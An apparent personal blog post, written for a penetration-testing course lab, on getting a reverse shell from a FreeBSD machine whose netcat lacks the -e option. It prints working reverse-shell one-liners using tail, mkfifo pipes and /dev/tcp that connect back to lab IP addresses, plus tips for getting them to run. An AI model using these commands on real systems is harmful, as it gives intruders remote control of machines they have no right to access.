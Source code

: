 ```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security draft
tags: netcat hack draft
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see... Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, so not quite my expertise.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     width="320px"
     class="pull-right">

I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.

1. Use tail -f to feed commands from a temporary file to bash. (Using -n 0 to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:
{% highlight bash %}
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
{% endhighlight %}

And don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous [/dev/tcp/<ip>/<port>](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) did not work either. The following command did not result in any response on my machine.

{% highlight bash %}
echo foo > /dev/tcp/10.11.0.13/443
{% endhighlight %}

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

{% highlight bash %}
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
{% endhighlight %}

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the "mkfifo pipe" command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When uname -a gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: chmod +x did not work, chmod 777 did the job... (◔_◔)

